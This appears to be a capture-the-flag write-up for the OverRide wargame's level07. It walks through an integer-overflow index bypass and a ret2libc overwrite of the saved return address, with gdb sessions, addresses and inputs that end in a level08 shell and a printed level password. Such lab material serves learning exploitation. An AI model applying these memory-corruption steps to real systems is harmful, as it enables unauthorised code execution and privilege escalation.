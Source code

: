 # level07

This program clear `argv` and `env` and waits for a command in a loop:

- `store`: store a number at address `$buffer + $index * 4`
- `read`: read a number at `$buffer + $index * 4`
- `quit`: quit the program

We also can't :

- store a number where number >> 24 == 183
- store a number where index % 3 == 0

We try to overvwrite an address of the GOT but address are randomized and it didn't work in real environment:

```bash
level07@OverRide:~$ objdump -R level07 
...
0804a014 R_386_JUMP_SLOT   puts
...
(gdb) r
Input command: store

Breakpoint 1, 0x080488ea in main ()
(gdb) x $esp
0xffffd520:     0xffffd544
(gdb) p/d (0x0804a014 - 0xffffd544) / 4
$2 = 33632948
...
Input command: store
 Number: 42424242
 Index: 33632948
 Completed store command successfully
Input command: store
 Number: 42
 Index: 3

Program received signal SIGSEGV, Segmentation fault.
0x028757b2 in ?? ()
```

We can try to overwrite `eip` even if a canary is present to bypass this. The passed to  `store_number` function begins at `0xffffd544` in `main`, 456 bytes from `eip`:

```gdb
Input command: store

Breakpoint 1, 0x080488ea in main ()
(gdb) x/wx $esp
0xffffd520:     0xffffd544
(gdb) x/wx $ebp+4
0xffffd70c:     0xf7e45513
(gdb) p/d (0xffffd70c - 0xffffd544) / 4
$8 = 114
```

We can see that a number at index 114 can't be stored (144 % 3 = 0).

By passing the max int `2147483647` + 1, we can see that we write at index 0, so we can add 114 to write on index 114:

```gdb
Input command: store     
 Number: 42
 Index: 2147483648
 Completed store command successfully
Input command: read
 Index: 0
 Number at data[0] is 42
 Completed read command successfully
Input command: store
 Number: 42
 Index: 2147483762
 Completed store command successfully
Input command: read
 Index: 114
 Number at data[114] is 42
 Completed read command successfully
```

We can see that `execve` function is available in the stack:

```gdb
(gdb)  info functions execve
All functions matching regular expression "execve":

Non-debugging symbols:
0xf7ee45e0  execve
0xf7ee4640  fexecve
```

We can now pass it as number of index 114. As argument, we can also find a `/bin/sh` string in the stack:

```gdb
(gdb) info proc map
process 1864
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level07/level07
         0x8049000  0x804a000     0x1000     0x1000 /home/users/level07/level07
         0x804a000  0x804b000     0x1000     0x2000 /home/users/level07/level07
        0xf7e2b000 0xf7e2c000     0x1000        0x0 
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
...
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
```

We can now try to overwrite index 114 and 116, as 1st argument is taken from `$ebp + 8` in functions:

```bash
Input command: store
 Number: 4159587808
 Index: 2147483762
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 2147483764
 Completed store command successfully
Input command: read
 Index: 116
 Number at data[116] is 4160264172
 Completed read command successfully
Input command: quit    
: 0: Can't open 
```

Try with system:

```basg
Input command: store
 Number: 4159090384
 Index: 2147483762
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 2147483764
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cd /home/users/level08
$ cat .pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
